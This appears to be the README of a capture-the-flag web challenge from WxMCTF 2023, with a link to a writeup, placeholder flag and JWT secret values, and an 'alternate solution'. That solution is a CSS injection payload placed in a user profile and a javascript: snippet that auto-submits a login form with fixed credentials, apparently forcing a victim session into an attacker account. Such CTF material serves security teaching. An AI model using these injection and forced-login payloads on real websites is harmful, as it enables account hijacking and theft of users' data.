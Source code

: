 Check out duckrice404's writeup here: <https://deyixtan.github.io/posts/wxmctf2023/web4-brawl-shopping-spree/>

Environment variables needed: 
`FLAG=wxmctf{theflag}`
`JWT_SECRET=somesecret`

Alternate Solution: (same idea, different method) 

Create an account with following profile: 
```html
<style>
p {
display: inline !important;
margin-top: -24rem;
position: absolute;
}
</style>
```

Then enter this in the research field: 
```js
javascript:{
var form = document.createElement("form");
form.method = "POST";
form.action = "http://127.0.0.1:3000/login";
var element1 = document.createElement("input"); 
var element2 = document.createElement("input");  
element1.value="123456";
element1.name="username";
form.appendChild(element1);  
element2.value="123456";
element2.name="password";
form.appendChild(element2);
document.body.appendChild(form);
form.submit();
}
```
